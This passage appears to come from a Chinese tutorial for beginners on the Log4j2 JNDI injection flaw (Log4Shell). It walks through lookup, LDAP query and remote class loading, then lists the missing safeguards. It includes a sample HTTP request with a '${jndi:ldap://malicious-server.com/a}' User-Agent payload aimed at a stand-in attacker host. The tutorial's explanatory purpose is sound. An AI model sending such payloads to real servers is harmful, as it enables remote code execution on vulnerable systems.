 接着会执行**JNDI查找**  
操作：  
  
1. 根据协议（ldap/rmi/dns）初始化对应服务  
  
1. 向
```
attacker.com
```

  
的LDAP服务发起查询请求  
  
1. 接收LDAP服务器返回的序列化对象引用  
  
1. **动态加载（Dynamic Loading）**  
  
如果返回的是远程Java对象引用（如
```
javaFactoryClass
```

  
），JVM会：  
  
1. 从攻击者指定的URL下载.class文件  
  
1. 通过类加载器实例化该对象  
  
1. 执行其构造函数/静态代码块  
  
这个问题，本质上是利用了 Log4j2 对 JNDI 查找功能的 “安全校验缺失”—— 它没有判断这个 “查找请求” 是否来自可信来源，就盲目执行了。  
  
  
专业点来说，原始版本未对JNDI查找做：  
- 协议白名单验证  
  
- 目标地址过滤  
  
- 类加载限制  
  
  
  
这个漏洞的可怕之处在于：攻击者能通过网络 “隔空” 让大量使用 Log4j2 的服务器 “听话”，执行任何恶意操作，因此被称为 “史诗级漏洞”。  
  
接下来，再举个例子解释一下，我的目标是萌新也能看懂。  
（谁叫我以前是做老师的呢，职业强迫症使然）  
1. **构造恶意请求**  
  
攻击者发送特制的HTTP请求，在User-Agent头中植入JNDI注入代码：  
  

```
GET/HTTP/1.1
Host:vulnerable-server.com
User-Agent:${jndi:ldap://malicious-server.com/a}
```

  
**触发日志记录**  
  
存在漏洞的服务器在记录User-Agent头时，会解析其中的JNDI表达式  
1. **执行恶意代码链**  
  
1. 服务器向
```
malicious-server.com
```
